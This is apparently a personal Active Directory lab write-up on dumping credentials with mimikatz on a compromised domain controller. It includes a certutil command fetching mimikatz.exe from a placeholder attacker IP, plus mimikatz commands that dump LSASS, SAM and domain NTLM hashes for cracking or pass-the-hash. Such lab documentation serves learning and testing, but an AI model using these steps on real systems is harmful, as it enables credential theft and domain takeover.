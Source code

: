 # Dumping Credentials using MIMIKATZ

As we discussed before `mimikatz` is a post compromise tool that require an valid user shell. In the previous URL File attack, we have already compromised the Domain Administrator account. <br>
By using his credentials we can get a shell on the domain controller (JUSTICE-DC) and then load `mimikatz` to dump the hashes of other interesting domain accounts.

### TRANFERRING MIMIKATZ EXECUTABLE TO TARGET:

To execute `mimikatz` on the target we need to first transfer the executable file onto the target.
Its always a best practise to use the `/temp` folder under `C:\` drive to store all the scripts and executables that we use on the target.

To transfer the executable, I hosted the directory using python HTTP server and then used `certutil` command on the target shell to download the `mimikatz.exe` file

ON ATTACK SIDE: Host the directory with `mimikatz.exe`. In Kali it can be found under `/usr/share/windows-resources`.
```
python3 -m http.server 80
```

ON TARGET SHELL: Navigate to `C:\temp` directory and download the file.
```
certutil -urlcache -f http://<ATTACKER IP>/mimikatz.exe mimikatz.exe
```

### CREDENTIAL DUMPING
#### 1. GAIN PRIVILEGE TO DUMP CREDENTIALS:

```bash 
privilege::debug
```
This command will allows us to debug a process that we don't have access to. In simple words, it bypasses the memory protection for the `lsass.exe` process to dump credentials in it.

![[privilegedebug.png]]
#### 2. DUMPING HASHED PASSWORDS FROM LSASS:

```
sekurlsa::logonpasswords 
```
This command will list the stored login password hashes of all user accessing that have previously logged into `JUSTICE-DC`. If you are on a Domain controller shell you can use this to gain the stored password hash of the Administrator.

Similarly if we were attempting this on any other machine on the domain (For Ex: `BATMAN`) where the Administrator have logged in. this command will dump the admin's NTLM hash. This means that the shell doesn't have to be always the Domain Controller.
 
![[adminhash 2.png]]
#### 3. EXTRACTING LOCAL USER HASHED FROM SAM DATABASE:

```
lsadump::sam
```
This command will dump the password hashes of all local users present in that particular machine like guest, local admin, local user account etc..<br>
This command also dumps other important about the target like `Syskey`, SAM Key, Local SID etc..

![[SAMdump.png]]
#### DUMPING CREDETIALS OF OTHER DOMAIN USERS:

```
lsadump::lsa /patch
```
Currently we have an Administrator shell on the domain controller (JUSTICE-DC). if we run this command it will dump the NTLM hash of all users available on the domain.

Since these are NTLM, we can crack the hash or pass it to laterally move to other systems and compromise other users on the domain.

![[USerdump1.png]]
![[Userdump2.png]]

From the output, we got to know few accounts that we had no idea that they existed on the domain.
- One is the Clark Kent's account: `superman` which is the cop of the Administrator account and has all the privileges on the domain.
- Another one is the `SQLService` account which is also a Domain Admin account.
- Then we have the `krbtgt` account which is used by the Kerberos service for creation and distribution of tickets. this is a very important account when it comes to Golden ticket attack.

